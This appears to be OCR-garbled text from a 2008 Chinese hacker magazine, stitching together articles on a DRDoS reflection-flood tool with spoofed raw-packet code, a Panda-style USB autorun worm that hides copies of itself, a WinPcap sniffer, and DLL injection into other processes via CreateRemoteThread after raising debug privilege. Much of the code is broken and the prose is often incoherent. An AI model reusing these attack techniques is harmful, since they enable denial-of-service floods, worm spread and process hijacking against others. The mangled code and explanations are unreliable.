

图5

“压缩包”中找到`exe`在压缩包中找到设置自压缩和全部文件后点击确定：


图6

`CMD`，打开命令行，用图7所示，成功启动了：



图6



图9

## 总结

一个自己用的木椅子就这样出来的，上面的简单功能，或许可以配置服务的，也可以用未来来实现，对于更多的功能，下次我会告诉大家吧！大家的付出之旅！


# PROGRAMMING ANALYSIS

DRDoS是英文“Reflection Denial of Service Attack”的缩写，意思是“反射性拒绝服务”，DRDoS方式是将数据发送给受害主机攻击。DRDoS与DoS的不同在于不需要攻击者的资源，这种优势在伪造数据环境下的从这一点来说，与Smurf攻击相比，DRDoS是在广范围内进行的，其名称中的R”代表反射，这种方法是最大的优点。

## 实现源码

为了实现DRDoS，我专门用了一个强大的工具`SmartToolkit`，实现了几个功能：多线程扫描，多线程DRDoS攻击，`ICMP`洪水，自动更新，这工具已经释放了源代码，大家可以在`dreamfly.net`看到。本文提供了完整源码。我主要根据代码来讲解DRDoS的实现原理，为了底层结构，我讲解了`ICMP`攻击部分，大家可以参考源码：

1) 首先是初始化发送的数据头部，这种头部只需要修改几个参数，就能达到快速流量的速度，具体实现所示：

```cpp
void Cdros::initPacket(Packet *packet) {
    // IP 头部
    memset((void *)ip, 0, sizeof(ip_header));
    ip->version = (4 << 4) | (sizeof(ip_header) / 4);
    ip->total_len = htons(sizeof(ip_header) + sizeof(tcp_header));
}
```

```cpp
    ip_header->id = 1;
    ip_header->frag_offset = 0;
    ip_header->ttl = 255; // 最大 TTL
    ip_header->proto = IPPROTO_TCP;
    ip_header->s_addr = htonl(src_addr.s_addr);
    ip_header->d_addr = htonl(dest_addr.s_addr);
```

```cpp
    // TCP 头部
    memset((void *)tcp, 0, sizeof(tcp_header));
    tcp->source_port = htons(src_port);
    tcp->dest_port = htons(dest_port);
    tcp->seq = rand();
    tcp->ack_seq = 0;
    tcp->data_offset = (sizeof(tcp_header) / 4) << 2;
```

```cpp
    tcp->window = htons(5840);
    tcp->check = 0;
    tcp->urgent_ptr = 0;
```

```cpp
pscheader->protocol=IPPROTO_TCP,
pscheader->length=htons(sizeof(struct ip_header));
```

```cpp
m_ncounter=0;
}
```

# PROGRAMMING ANALYSIS

( socket ) socket@hacker.com

```c
closesocket(sock);
perror("setsockopt");

ret=setsockopt(sock,SOCKET,SOCKET_RCVTIMEO,
    (char*)&timeout,sizeof(timeout));
if(ret==SOCKET_ERROR)
    closesocket(sock);
    perror("setsockopt");

long seq_num=MakeRand32(rand());
ipheader.id=reflect_ip_port->ip_id;
ipheader.checksum=0;
tcpheader.dport=reflect_ip_port->dport;
tcpheader.seq=htons(seq_num);
tcpheader.window=rand();
tcpheader.ack=reflect_ip_port->ack;

// 构造UDP包
mmencpSend(void *p,&sizeof,sizeof(nUDP_HEADER));
udpheader.checksum=0;
mmencpSend(void *p,udpheader,sizeof(nUDP_HEADER));
udpheader.checksum=checksum(udpheader,sizeof(UDP_HEADER));

// 构造IP包
mmencpSend(void *p,&sizeof,sizeof(nIP_HEADER));
ipheader.checksum=0;
mmencpSend(void *p,ipheader,sizeof(nIP_HEADER));
ipheader.checksum=checksum(ipheader,sizeof(nIP_HEADER));

mmencpSend(void *p,&sizeof,sizeof(nIP_HEADER));
```

```c
syn_in.sin_family=AF_INET;
syn_in.sin_addr.s_addr=reflect_ip_port->ip_addr;
syn_in.sin_port=reflect_ip_port->port;
// 构造TCP包
ret=send(sock,tcpheader,sizeof(nTCP_HEADER),0,
    (struct sockaddr *)&syn_in,sizeof(syn_in));
if(ret==SOCKET_ERROR)
    closesocket(sock);
    perror("send");
    
return(0);
```

对于DDoS攻击的防御，由于一个数据包从外部网络口收到，所以在攻击时可以配置防火防止`SYN/ACK`包直接接管了。

# FAQ

+ 1. 软件开发者关注的问题

首要考虑原理是可以实现功能，问题的难点在于线程的处理、缓冲区同步的写法、校验和状态处理。所有这些问题我们在编写时都已克服了，大家可以看到`Smart`的实现。

+ 2. 兴趣爱好者和压力测试爱好者的总结

规模`SimAttack`病毒探测到的汇总，用户关注的是反射选取的逻辑，记住一个原则，就是这个选取的反射必须是`BGP`协议，如果发生DDoS，会造成没有任何防御的效果。

编程爱好者

前置知识

# 浅谈电脑病毒的特性


最近一段时间，各大杀软件的病毒排行榜已经有了新的变化，熊猫熊病毒重登榜首，被称为“病毒毒王”，我们这里暂时不谈其危害性，就说其感染性值得我们学习一下。特别是在家里来说，

就是一个小程序`worm.exe`，用以模拟熊猫熊毒病毒，其中没有具有破坏性的恶意代码，只是再展示了病毒的传播功能。

运行`worm.exe`，程序会自动搜索主机上的相同盘，并在硬盘和U盘目录下创建`autofun.exe` 和本程序的复制文件`a.exe`，在运行机器后，双击文件就会自动运行文件.exe。如果U被感染，便从其他机器感染。另外，本程序中并不涉及注册的函数，我们先看`autofun.inf`的的内容：

www.hacker.com 《黑客》2008年春季上 42

# PROGRAMMING socket

```ini
[autofun]
OPEN=exe
```

`worm.exe`程序的代码由以下几个重要函数构成的，下面将要介绍：

```c
BOOL FileExists(LPCTSTR fileName)
{
	tFIND find;
	return Find(fileName);
}
```

这个函数没有什么用，只是用来检查复制的文件是否存在。如果不存在，则返回0。

```c
BOOL CopyFile(LPCTSTR srcFile,LPCTSTR dstFile)
{
	//读取源文件
	LPCTSTR src="autofun.inf";
	LPCTSTR dst="worm.exe";
	//写入目标文件
	CopyFile(src,dst,true);
	//设置文件属性
	SetFileAttribute(dst,FILE_ATTRIBUTE_SYSTEM|FILE_ATTRIBUTE_HIDDEN);
	return 0;
}
```

复制文件名为“系统”和“隐藏”

```c
BOOL CreateFile(LPCTSTR fileName)
{
	//如果创建文件则返回1
	file.String1;
	WriteString(0);
	//写入文件内容
	file.Length.GetPosition(0);
	file.Close();
	//如果创建成功则返回1
	return 1;
}
```

这个函数负责创建`autofun.exe`，在同一时刻中，它是一个无类型函数。如果创建成功则返回1否则0。要注意的是，`LPCTSTR s1="autofun\n"`中不要包含换行符`\n`。

```c
void FileExists(char fileName)
{
	//如果没有被感染，那么……
	CreateFile(fileName);
	for(char i=0;i<len(fileName);i++)
	char.dev2(0,0);
}
```

此函数首先判断本机被感染。如果没有，则复制到所有目录，并在硬盘根目录下创建副本`autofun.exe`，这两个文件就会设置为“系统”和“隐藏”。只有被感染后弹出`Dialog()`，当计算机后，双击文件即可自动运行。如果不击了它，U盘则病毒就会复活。这段代码运行后，病毒已经具有复制性。如图所示：


病毒

`Worm.exe`

最后说明一下，本文的目的仅仅是给那些读者带来帮助。本文提供的代码基础上，大家可以自己添加一些功能，但是千万不要为了非法。

## 编程爱好者

前置知识

# PROGRAMMING ANALYSE

# 编写嗅iffer

WinPcap是Windows平台下的抓包工具，是在Windows平台下实现的设计，与LibPcap相同，使用可以容易地在Linux下开发程序移植到Windows平台基于Berkeley Laboratory，其网址为`http://www.pcap.org/`

# 核心

`WinPcap`由三个模块组成，第一个模块是`Packet Filter`，它的功能是过滤包，并将数据封不动地传递给用户模块。第二个模块是`Packet Handler`，对于Windows32平台中的接口，旧版本的系统都有相同的模块。第三个模块是高级库，查询的方法含有许多过滤器，缓冲区等功能。

+ 1. 获取网卡的名称。

2. 设置网卡为混杂模式。

3. 获取数据包并保存为文件。

4. 分析数据包，格式化输出。

# 概述

```c
#include <pcap.h>
#pragma comment(lib, "wincap.lib")
// 4字节IP地址：
```



```c
typedef struct ip_address {

    unsigned char byte1;

    unsigned char byte2;

    unsigned char byte3;

    unsigned char byte4;

};
```

// IP地址下，请参见RFC791。

| Identification | Flags | Fragment Offset | Total Length |
|---|---|---|---|
| Time to Live | Protocol | Checksum | |
| Source Address | | | |
| Destination Address | | | |
| Options | | | |

```c
// IPv4 结构头部

struct ip_header {

    unsigned char ver_ihl; // 4位长度，4位版本号

    unsigned char tos; // 8位服务类型 TOS

    unsigned short len; // 16位长度（字节）

    unsigned short flags_offset; // 3位标志，13位偏移

    unsigned char ttl; // 8位TTL

    unsigned char proto; // 8位协议（TCP, UDP等其他）

    unsigned short checksum; // 16位校验和

    ip_address src; // 32字节IP地址

    ip_address daddr; // 32字节IP地址

    unsigned char *options; //

};
```

// TCP 结构下，请参见 RFC793。

| 0 | 1 | 2 |
|---|---|---|
| 3 | 0 1 2 3 4 5 6 7 8 9 0 2 3 4 5 6 7 8 9 0 2 3 4 |
| 5 6 7 8 9 0 | |
| Source Port | Destination Port |
| Sequence Number | |
| Advertisement Number | |
| Data | U | A | I | P | R | I | S |
| Offset | Reserved | R | C | S | I | Y | Window |
| G | H | I | J | N | N | |
| Checksum | Urgent Port |
| Options | Padding |
| data | |

```c
// pcap_c: 定义控制台用套接符入口

int main(int argc, char **argv) {

    pcap_if_t *alldev;

    char errbuf[PCAP_ERRBUF_SIZE];

    int i = 0;

    pcap_t *handle;

    char errname[PCAP_ERRBUF_SIZE];

    int res;

    struct pcap_pkthdr *header;

    struct ip_header *ih;

    struct tcp_header *th;

    struct udp_header *uh;

    unsigned short ip_tot_len;

    struct u_char *data;

    struct pcap_dump *dumper;

    struct sockaddr_in addr;

    char *filter;

    // 获取设备列表

    if (pcap_findalev(&alldev, errbuf) != 0) {

        fprintf(stderr, "pcap_findalev failed: %s\n", errbuf);

        exit(1);

    }
```


```c
    // 输出所有设备

    for (d = alldev; d != NULL; d = alldev->next) {

        printf("%d: %s\n", i++, d->name);

        if (d->description) {

            printf("%s\n", d->description);

        }

    }

    i--;

    printf("输入接口号 (0-%d): ", i);

    scanf("%d", &i);

    if (i < 0 || i > i) {

        printf("无效的接口号\n");

    } else {

        // 打开套接字

        handle = pcap_open_live(alldev->name, 65535, 1, 1000, errbuf);

        if (handle == NULL) {

            printf("无法打开接口: %s\n", errbuf);

        }

        if (PCAP_FLAG_PROMISC) {

            // 混杂模式

        }

        if (handle == NULL) {

            fprintf("Unable to open the adapter: %s\n", errbuf);

        }

    }

}
```

| Source | Destination |
|---|---|
| Port | Port |
| Length | Checksum |
| octets | |

```c
// TCP/UDP 头部

struct udp_header {

    unsigned short sport; // 源端口

    unsigned short dport; // 目的端口

    unsigned short len; // 长度

    unsigned short crc; // 校验和

};

// UDP header *
```





# PROGRAMMING ANALYSIS

```c
pcap_freesalva(alldev);

return (-1);

// 建立套接字，程序失败将退出

if (socket(AF_INET, SOCK_RAW, IPPROTO_RAW)){

    fprintf(stderr, "不支持的架构: %s\n", strerror(errno));

    // 释放设备资源

    pcap_freesalva(alldev);

    return (-1);

}

if ((d=socket(NULL))){

    // 创建一个网口套接字

    memset((struct sockaddr_in *)&addr, 0, sizeof(addr));

    addr->sin_family = AF_INET;

    addr->sin_port = htons(INADDR_PORT);

    addr->sin_addr.s_addr = inet_addr("0.0.0.0");

}

if (!(handle=pcap_open_live(dev, BUFSIZ, 1, 1000, errbuf))){

    fprintf(stderr, "无法打开网卡设备: %s\n", errbuf);

}

// 释放设备资源

pcap_freesalva(alldev);

return (-1);

// 设置过滤器

if (pcap_setfilter(handle, &filter, 0, &netmask)){

    fprintf(stderr, "设置过滤器失败: %s\n", pcap_geterr(handle));

}

// 释放设备资源

pcap_freesalva(alldev);

// 打印设备信息

printf("设备地址: %s, 掩码: %s\n", inet_ntoa(addr), inet_ntoa(netmask));

// 释放设备资源

pcap_freesalva(alldev);

// 输出dump文件

dumpfile = pcap_dump_open(handle, "dump.pcap");

if (dumpfile == NULL) {

    fprintf(stderr, "打开dump文件失败: %s\n", pcap_geterr(handle));

}

// 循环包

while ((packet=pcap_next(handle, &header)) != NULL) {

    if (header->len < 20) {

        // 跳过短包

        continue;

    }

    // 解析IP头

    struct ip *ip = (struct ip *)(packet + 14);

    if (ip->ip_p == IPPROTO_TCP) {

        // 解析TCP头

        struct tcphdr *tcp = (struct tcphdr *)(packet + 14 + (ip->ip_hl * 4));

        // 打印IP地址和端口

        printf("源IP: %s -> 目的IP: %s\n", inet_ntoa(ip->s_addr), inet_ntoa(ip->d_addr));

        // 源端口和目的端口

        printf("源端口: %d -> 目的端口: %d\n", ntohs(tcp->th_port), ntohs(tcp->th_dport));

    }

    pcap_dump(dumpfile, &header, packet);

}

pcap_dump_close(dumpfile);

return (0);

```

## 后记

在2004年的黑风暴后《编写无驱动的Sniffer》这篇文章，虽有其他的文章进行了分析，但作者对此进行了更详细的说明。本文介绍了一个Sniffer实例用Wincap编写。算是虽然但是，如果我们能够通过这种方法来学习，目的达到了。如果你遇到问题，可以与我交流。

作者：王磊

## 以“噬魔”的病症

### 再谈Delphi编程病症

从“噬魔”薛语来说，病魔编写的程序在低优先级运行，病魔的程序有很多，但很多人和正在学Delphi编程的人，同样也会遇到各种棘手的问题，就把这些问题和大家分享一下，给每个遇到这些问题的人一个提示。我所听过的、遇到过的病症：没遇到过病症，也没有遇到过病症，没遇到过病症。我相信大家都理解了，这里就说这个和你面对的问题解决方法：线程写入、UI线程冲突等这些问题会让你产生压力，但是我们可以通过这三个方法解决，让你的想象可以变成现实。



无论是从适应的难易程度来说，“噬魔”不是好还是不好呢，线程引入会造成多大的影响，线程来说是不什么新的概念，我们能避免它的影响其实并不是什么高深的技巧了，只要有了更多的人手，我们就可以把它们写好了，千万不要害怕了！

还是单说一个引入线程的基本原理：当一个程序在运行过程中可以创建多个本地线程执行不同的功能，线程引入就是我们从程序中创建一个新线程执行我们自己的代码，而让它在后台运行，这就过大的线程，这样的例子：

## 远程线程权限

一个`exe`提升Delphi权限，可以对某些线程进行访问权限，然后线程将`DLL`地址告诉目标程序，再让程序使用调用Library的函数，`DLL`就可以在当前进程中创建一个`DLL`的线程，这样了，就是一个线程创建我们调用的`DLL`的线程这样就可以了，这还是比较先进的方法了。

```go
var

  hThread: THandle; // 线程句柄

  rtTemp: DWORD; // 获取调试时间句柄

  Token: TOKEN_HANDLE;

begin

  SetDebugPrivileges:Boolean; // 设置调试权限

  begin

    Result := False; // 获取令牌，尝试修改权限

    if (OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &Token)) then

    begin

      Token.Privileges.Count = 1;

      if (LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &Token.Privileges[0].Luid)) then

      begin

        Token.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

        Result := True;

      end;

    end;

  end;

end;
```

# PROGRAMMING Analysis

```c
// 获取进程的TokenPrivilegeId

TOKEN_PRIVILEGE tp={0};

HANDLE hTempToken=NULL;

// 设置新权限

if (!SetTokenPrivileges(hToken, FALSE, &tp, sizeof(TOKEN_PRIVILEGE), NULL, NULL))

Result = GetLastError(), ERROR_SUCCESS;

CloseHandle(hToken);
```

`LoadLibrary`的输入，这样就这就创建了我们的`DLL`线程了，合适的地址，我们再来理解一下：

```go
// 使用OpenThread创建线程，第二个参数是PID，

// 第三个参数是DWORD

void ProcessData(LPCSTR lpFileName, string const

PathMatch, Boolean isCreate, DWORD dwID) {

hProcess=OpenProcessProcess(dwID);

hThread=CreateThread;

FoundProc=GetProcAddress(hModule, procName);

ProcessID=0;

}
```

提升权限可以最大程度地操作目标而不遇到调试无法，在提升后我们需要将我的`DLL`字符串信息写入到目标内存的内容里，第一步是要获取目标进程句，让目标内存内存，把`DLL`写入目标内存的地址，这时可能用到调用`OpenProcess`、`VirtualAllEx` 和 `WriteProcessMemory`，为了让目标字符串在目标进程中远程访问内存的`VirtualAllEx` 让目标远程访问自己的`DLL`：`WriteProcess` 是把`DLL`的字符串作为参数写入目标内存的地址，将字符串写入目标内存后我们就可以创建线程了，可以使用`RemoteThread`函数来创建一个在目标进程中执行的线程，它来看看这些函数的用法：

```go
function CreateRemoteThread(

hProcess: Handle;

// 可选的地址，这允许在目标进程中

// 可执行的伪代码

hlpThread: Pointer;

// 为新的线程创建一个线程句柄；NT 谓：

dwSize: DWORD;

// 线程大小：这里选择为0，挂起我们一个

hlpStartAddress: LPTHREAD_START_ROUTINE 并执行线程的函数

hlpParameter: Pointer;

// 要执行的函数的参数

dwCreateFlags: DWORD;

// 设置线程创建标志，挂起或运行，0 表示

var lpThread: DWORD;

// 新创建线程的线程ID

handle: Handle;
```

```go
if MatchPath then

FoundProc=AnsiString(lpProcess.exeFile, Char

(lpFileName));

FoundProc=AnsiString(CharExtractFileName(lpFileName)) == 

if FoundProc-then

ProcessID=lProcess32Next(hProcess, &pe);
```

我们看到地址，我们要调用`LoadLibrary`使用`DLL`的地址，这个结构就是`Kernel32.dll`的`LoadLibrary`结构，幸运的程序就会调用`Kernel32.dll`以后，`Kernel32.dll`同一个进程中和目标进程里的地址是一样的，就是说`LoadLibrary`在injection中的地址和目标进程中的地址是一样的，这样我们将在创建远程线程时让`InputAddress`为

```go
FoundProc=Process32Next(hProcess, &pe);

break;

CloseHandle(hThread);

end;

begin;
```

```go
// 这里的输入是函数，使用调试函数

function AllocateToProcess(const hProcess, File: string

var;
hRemoteProcess:RemoteProcess(hProcess, 目标PID)
Size:DWORD; // 目标文件名
lpFileMemory:Pointer;
// 写入目标内存的内容
TempVar:DWORD;
hlpStartAddress:LPTHREAD_START_ROUTINE;
LoadLibraryA
lpFileName:WideChar; // 内存中DLL名称，地址
Result=0;
EnableEnableDebugPrivilege(Privilege) // 提升调试权限
GetProcAddress(hModule, FileName, Length) = 2 + 1;
```

`// 写入DLL模块参数`



# PROGRAMMING ANALYSE

```c
Size = (1 + strlen(pszLibFileName)) * sizeof(HINSTANCE);
```

系统消息。这里有必要先说清楚Windows的消息机制，更详细的内容，大家可以关注相关的。在DOS中，程序是按照时间顺序运行的，而到了Windows中，我们就应该重视事件，事件是异步的。你可以像创建窗口的按钮或下拉列表中选择一样，然后你所的操作就是系统发送成消息。这也就是消息机制。同样的，`WM`也是一个事件，它也会产生消息。我们想要获取这些消息，每一个都是一个在事件的队列中。我们只需要在窗口的定义下面的一私有消息：`procedure WM_DEVICEChange var`

```go
// Get DLL句柄
// FindFirst(hFile, false, dwRemoteProcess);
// 获取远程进程ID
hemoteProcess = OpenProcess(PROCESS_ALL_ACCESS, false, dwRemoteProcess);
// 根据进程ID获取远程进程中所有模块的句柄
hmodule = VirtualQueryEx(hRemoteProcess, 0, MEM_COMMIT|PAGE_READWRITE,);
```

```go
// 目标内存地址，这里回车
```

```go
ret = WriteProcessMemory(hRemoteProcess, pTarget, pszLibFileName, strlen(pszLibFileName),)
```

```go
// 目标文件名，这里回车
```

```go
if(ret)
pStartAddr = GetProcAddress("kernel32.dll", "LoadLibraryA"));
```

```go
pTempAddr = VirtualAllocEx(hRemoteProcess, 0, size, ...);
```

```go
// 这里获取kernel32.dll的句柄
hThread = CreateRemoteThread(hRemoteProcess, NULL, 0, pStartAddr, pTempAddr, 0, NULL);
```

这里是获取`kernel32.dll`的句柄通过`CreateRemoteThread`执行远程进程，并`GetProcAddress` `LibraryA`远程内存写入`pszLibFileName`，这样就执行了远程线程

```go
end;
FreeLibrary(pszFileName);
```

调试方法用`AttachTo("notepad.exe")(param)(non_form.dll);`我们在这里做些测试，用`non_form.dll`是完整的，用`notepad.dll`是由于我们在这个代码里已经包含了，我自己去测试，其实并不复杂。


```go
procedure TForm.WM_DeviceChange(var Message: WM_DEVICECHANGE);
begin
  var
    driver: string; //
  DBT_ARRIVAL := $8000;
begin
  case Message.wParam:
    DBT_ARRIVAL: // 设备插入
      driver := Char(UINT(Message.lParam));
      end;
    DRIVE_MOVABLE: // 如果移动设备则执行以下代码
    begin
      MessageBox(NULL, driver, "插入了驱动器", MB_OK);
    end;
end;
end;

// 这里是处理的逻辑，自己写
// // 设备句柄
message: UINT;
// 设备移除
wParam: WPARAM;
// 设备移除测试
```

我们只需要把这段代码放在程序中监控U盘的连接（插入或监控硬件设备的），这个代码已经写好了，不用多说了，但是很多人可以在自己的窗口中找到了。

监控U盘插入的方法：以作者来说，这种方法是一个简单的方法，可以监控U盘插入和移除注册项，也会存档HTML、JSON、和ASPX，在末尾处用一段代码来表示。U盘插入时会有不同的视觉效果

四个数字`44444444`的标记还原，这就执行了测试。最简单的方法，就是用日本部分的分类函数代码，我修改了代码并注意：完善日本部分的分类函数。

```go
void AllocateWnd(HWND WndProc)
{
  Inherited::WndProc; // 消息处理
}
```

```go
void DBT_ARRIVAL(WPARAM wParam, LPARAM lParam)
{
  // 新设备到达
const
  DBT_ARRIVAL = 0x8000; // 新设备的消息代码
var
  driver: char; // 驱动器
begin
  for driver='C' to 'Z' do // 遍历所有磁盘
    GetDriveType(PChar(driver)); // 获取驱动器类型
    if (=DRIVE_MOVABLE) then 如果是移动驱动器则执行以下代码
    begin
      MessageBox(0, '插入移动设备!', '提示', MB_OK); // 弹出提示框
    end;
end;
```

我已经将这段代码写在`non_form.dll`里，只需要第一行代码导出，插入U盘就会弹出移动设备！这样就实现了DLL中拦截消息，如果是这样的话程序就不需要隐藏代码？但是我们知道这样做是很麻烦，并不是使用Delphi封装好的任何form，而是用API的`AllocateWnd`来创建窗口，单元。这种方法可以去掉`Forms.Dialogs`等单元，但是从Delphi编写的程序来说，是比较麻烦的。

# PE文件属性

